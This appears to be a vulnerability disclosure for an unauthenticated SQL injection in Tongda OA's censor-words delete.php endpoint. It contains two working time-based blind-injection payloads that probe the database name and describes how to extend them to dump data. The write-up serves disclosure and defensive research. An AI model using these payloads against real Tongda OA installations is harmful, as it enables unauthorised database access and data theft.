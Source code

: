 Unauthorized SQL injection vulnerability exists in Tongda OA

version:Versions below v11.10 and v2017

Route: general/system/censor_words/manage/delete.php

There is an injected parameter: $DELETE_STR

The code here is very concise. When $DELETE_STR is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.

![image](https://github.com/Conan0313/cve/assets/144243161/54402503-3331-4e02-827f-5b4d864dd3ef)

2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.
POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://github.com/Conan0313/cve/assets/144243161/13daa714-06c8-4fd7-8ac9-744f5eb7b304)

And when we change 116 to 115, there will be no delay, indicating the existence of SQL injection.

POC

```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://github.com/Conan0313/cve/assets/144243161/1b7f626f-c360-48cc-9a4b-60bc2ee91083)

